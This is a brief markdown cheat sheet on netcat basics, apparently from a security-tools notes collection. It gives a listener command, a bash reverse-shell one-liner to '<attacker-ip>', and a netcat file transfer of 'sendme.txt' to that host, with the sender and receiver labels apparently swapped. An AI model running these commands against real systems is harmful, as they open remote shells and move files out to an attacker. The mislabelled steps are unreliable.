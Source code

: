 
---

### 📁 `tools/netcat-basics.md`

```markdown
# 🛠️ Netcat (nc) Basics – zerodaywarrior

## Listener Mode
```bash
nc -lvnp 4444
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
# Sender
nc -lvnp 1234 > received.txt

# Receiver
nc <attacker-ip> 1234 < sendme.txt
